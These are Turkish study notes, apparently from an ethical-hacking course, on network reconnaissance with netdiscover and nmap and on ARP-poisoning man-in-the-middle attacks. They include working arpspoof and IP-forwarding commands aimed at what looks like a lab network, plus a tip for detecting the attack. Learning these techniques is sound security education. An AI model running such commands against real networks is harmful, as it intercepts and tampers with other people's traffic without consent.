 ### Bağlantı Sonrası Yapılacaklar

**_ Netdiscover _**
-Mac adresleri ve ip adreslerini gösteren tablo çıkarır

~ifconfig //ip adresini öğren (bağlı olduğun ağın ya da kırdığın ağın)

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 // eth0=adı ,, 0/24 bu aralıktaki ağlar ,, 10 ne kadar istek atılacağı

**_ nmap _**

~nmap 10.0.2.0/24 //aynı sonucu verir

////////

**_ Port _**
-Her veri belirli portlardan sağlanır. Her servisin kendine has portu vardır.
Örn: 80 portu Http , 443 portu Https (Web sitesi açmak için)

////////

**_ MITM (Man-in-the-Middle) Saldırısı (Ortadaki Adam) _**

-Hacker bilgisayar kendini ortaya konumlandırır. Kurban, tüm verileri hackera yollar (çünkü onu modem sanıyor). Hacker da bu verileri modeme yollar (çünkü trafiğin devam etmesini istiyor). Arada durup, tüm verileri okuyabilir, değiştirebilir veya kaydedebilir.

**_ ARP (Address Resolution Protocol) (Adres Çözümleme Protokolü) Açığı _**
--Bir bilgisayar, bir IP adresine veri göndermek isterse önce o IP’ye ait MAC adresini öğrenmek için ağa ARP isteği (Who has?) yollar.Kurbana:
“Modemin IP’si şu, ama MAC adresi benim” der.Modeme de:
“Kurbanın IP’si şu, ama MAC adresi benim” der.

**_ ARP Poison _**

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 //mac ip adres öğren

~echo 1 > /proc/sys/net/ipv4/ip_forward //Normalde bir bilgisayar, gelen IP paketlerini sadece kendisine yönlendirilmişse işler. Ancak bu komut sayesinde o bilgisayar, gelen IP paketlerini başka bir cihaza yönlendirebilir hale gelir. Yani, bilgisayar bir router (yönlendirici) gibi davranır.

~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle hem modeme hem

~arp -a //saldırılan bilgisayar da bu komutu çalıştırdığında aynı mac adresine sahip iki cihaz görürsen saldırıya uğruyorsun
